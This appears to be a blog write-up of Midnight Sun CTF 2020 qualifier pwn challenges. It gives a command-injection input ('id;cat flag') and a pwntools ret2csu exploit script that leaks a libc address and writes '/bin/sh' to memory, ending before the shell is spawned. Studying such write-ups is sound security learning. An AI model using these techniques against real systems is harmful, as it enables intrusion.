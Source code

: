 title: "Midnight Sun CTF 2020 Quals Writeup"
tags:
  - CTF
  - Writeup
url: /archives/281/
#! meta end

just writeup...

#! head end

#! toc Contents

# pwn

## admpanel

Run `id;cat flag`.

## Pwny racing - pwn1

ret2csu. See https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/medium-rop-zh/ (English: https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/medium-rop/ ) for more information.

```python
from pwn import *
from time import sleep

p=ELF('./pwn1')
main_addr=0x400698
main_end_addr=0x40070b
csu_end_addr=0x40077a
csu_front_addr=0x400760
fakeebp = b'b' * 8
bss_base = 0x602040 # not real bss_base, since stdin and stdout are at the real one

libc=ELF('./libc.so')

r=remote('pwn1-01.play.midnightsunctf.se',10001)

def csu(rbx, rbp, r12, r13, r14, r15, last):
	# pop rbx,rbp,r12,r13,r14,r15
	# rbx should be 0
	# rbp should be 1, disable jump
	# r12 should be the function we want to call
	# rdi=edi=r13 <- different from ctf-wiki
	# rsi=r14
	# rdx=r15
	payload = b'a' * 0x40 + fakeebp
	payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15)
	payload += p64(csu_front_addr)
	payload += b'a' * 0x38
	payload += p64(last)
	r.send(payload+b'\n')
	sleep(1)

r.recvuntil('buffer: ')
csu(0, 1, p.got['puts'], p.got['puts'], 0, 0, main_addr) # leak puts addr
puts_addr=int.from_bytes(r.recv(6),'little')
libc_addr=puts_addr-libc.symbols['puts']

r.recvuntil('buffer: ')
csu(0, 1, p.got['gets'], bss_base, 0, 0, main_addr)
r.send(b'/bin/sh\0\n')
```